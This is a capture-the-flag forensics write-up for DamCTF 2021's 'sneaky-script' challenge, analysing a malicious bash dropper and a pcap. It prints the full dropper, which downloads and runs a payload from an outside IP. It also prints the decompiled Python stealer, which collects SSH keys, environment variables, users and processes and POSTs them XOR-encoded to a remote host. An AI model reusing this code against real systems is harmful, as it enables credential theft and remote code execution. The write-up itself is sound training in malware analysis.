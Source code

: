 ```yaml
---
# Obsidian
tags:
- ctf
- 2021-damctf
- malware
- forensics
- pcap
- wireshark
- python
- bash
- xor
- base64


# Jekyll
layout: ctf
type: problem

# Problem info
ctf: 2021-damctf
category: malware
title: sneaky-script
points: {{points}}
solved: true
---
```


# sneaky-script

## Instructions

We recovered a malicious script from a victim environment. Can you figure out what it did, and if any sensitive information was exfiltrated? We were able to export some PCAP data from their environment as well.

[files.zip](#)

## Solution

In the included files.zip we have a shell script and a pcap file. The shell script is as follows:

```bash
#!/bin/bash

rm -f "${BASH_SOURCE[0]}"

which python3 >/dev/null
if [[ $? -ne 0 ]]; then
 exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
 exit
fi

mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg

python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

In wireshark we can filter for the `54.80.43.46` ip address and grab the base64 string in the response to the curl request. Decoding it gives us a byte-compiled python string.

```bash
$ file curl-response 
curl-response: python 3.6 byte-compiled
```

We can decomplie this bytecode back to Python using the python package `uncompyle6`.

```python
# uncompyle6 version 3.8.0
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.9.7 (default, Sep 24 2021, 09:43:00) 
# [GCC 10.3.0]
# Embedded file name: /tmp/tmpaliidej5
# Compiled at: 2021-09-25 17:59:31
# Size of source mod 2**32: 2900 bytes
import array, base64, fcntl, http.client, json, re, socket, struct, os, uuid

def get_net_info():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    g = array.array('B', b'\x00' * 4096)
    y = struct.unpack('iL', fcntl.ioctl(s.fileno(), 35090, struct.pack('iL', 4096, g.buffer_info()[0])))[0]
    n = g.tobytes()
    a = []
    for i in range(0, y, 40):
        c = n[i:i + 16].split(b'\x00', 1)[0]
        c = c.decode()
        m = n[i + 20:i + 24]
        v = f"{m[0]}.{m[1]}.{m[2]}.{m[3]}"
        a.append((c, v))
    return a


def get_users():
    with open('/etc/passwd', 'r') as (f):
        x = [x.strip() for x in f.readlines()]
    g = []
    for z in x:
        a = z.split(':')
        if int(a[2]) < 1000 or int(a[2]) > 65000:
            if a[0] != 'root':
                continue
        g.append((a[2], a[0], a[5], a[6]))
    return g


def get_proc():
    n = []
    a = os.listdir('/proc')
    for b in a:
        try:
            int(b)
            x = os.readlink(f"/proc/{b}/exe")
            with open(f"/proc/{b}/cmdline", 'rb') as (f):
                s = (b' ').join(f.read().split(b'\x00')).decode()
            n.append((b, x, s))
        except:
            continue
    return n


def get_ssh(u):
    s = []
    try:
        x = os.listdir(u + '/.ssh')
        for y in x:
            try:
                with open(f"{u}/.ssh/{y}", 'r') as (f):
                    s.append((y, f.read()))
            except:
                continue
    except:
        pass
    return s


def build_output(net, user, proc, ssh):
    out = {}
    out['net'] = net
    out['proc'] = proc
    out['env'] = dict(os.environ)
    out['user'] = []
    for i in range(len(user)):
        out['user'].append({'info':user[i],  'ssh':ssh[i]})
    return out


def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()


def a():
    key = ':'.join(re.findall('..', '%012x' % uuid.getnode()))
    if '4b:e1:d6:a8:66:be' != key:
        return
    net = get_net_info()
    user = get_users()
    proc = get_proc()
    ssh = []
    for _, _, a, _ in user:
        ssh.append(get_ssh(a))
    data = build_output(net, user, proc, ssh)
    send(data)


try:
    a()
except:
    pass
# okay decompiling curl-response.pyc
```

The `send()` function appears to be exfiltrating xor'ed and base64 encoded data back to a remote host via HTTP. We can grab the exfiltrated data by looking for the POST request from the `34.207.187.90` host in the pcap and decoding the data.

```python
import base64

def main():
    with open("exfil.bin", "r") as f:
        encoded = f.read()
        k = b'8675309'
        data = base64.b64decode(encoded)
        print(bytes([data[i] ^ k[(i % len(k))] for i in range(len(data))]))

if __name__ == "__main__":
    main()
```

Search for the flag format in the resulting data gets us the flag in the environment variables:

```
"FLAG": "dam{oh_n0_a1l_muh_k3y5_are_g0n3}",
```

## Continued On


